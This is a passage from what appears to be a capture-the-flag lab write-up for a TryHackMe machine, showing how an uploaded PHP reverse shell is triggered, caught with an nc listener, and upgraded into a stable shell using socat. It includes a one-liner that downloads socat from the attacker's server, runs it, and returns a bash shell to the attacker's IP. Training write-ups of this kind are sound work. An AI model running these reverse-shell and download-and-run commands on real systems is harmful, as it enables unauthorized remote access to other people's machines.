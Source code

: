 Now the PHP reverse shell has been **uploaded to `admin1.vulnnet.thm/fileadmin/user_upload/revshell.php`.**

- Setup a `nc` listener, and trigger the reverse shell:

**Setup a `nc` listener:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/VulnNet-Endgame]
└─# nc -lnvp 443     
listening on [any] 443 ...
```

**Trigger the reverse shell:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Vulnnet-Endgame]
└─# curl http://admin1.vulnnet.thm/fileadmin/user_upload/revshell.php
```

**Received reverse shell connection:**
```
[...]                        
listening on [any] 443 ...
connect to [10.18.61.134] from (UNKNOWN) [10.10.214.82] 51938
Linux vulnnet-endgame 5.4.0-120-generic #136~18.04.1-Ubuntu SMP Fri Jun 10 18:00:44 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 21:29:56 up 15 min,  0 users,  load average: 0.01, 0.08, 0.13
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@vulnnet-endgame:/var/www/html/admin1/fileadmin/user_upload$ 
```

I'm `www-data`!

**Let's stable our reverse shell via `socat`**, so we won't accidentally exit it when we press `Ctrl+C`.

**Stable shell via `socat`:**
```
┌──(root🌸siunam)-[/opt/static-binaries/binaries/linux/x86_64]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

┌──(root🌸siunam)-[~/ctf/thm/ctf/VulnNet-Endgame]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444
[...]
```

```
www-data@vulnnet-endgame:/var/www/html/admin1/fileadmin/user_upload$ wget http://10.18.61.134/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.18.61.134:4444 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/VulnNet-Endgame]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444
[...]
www-data@vulnnet-endgame:/tmp$ stty rows 22 columns 121
www-data@vulnnet-endgame:/tmp$ export TERM=xterm-256color
```
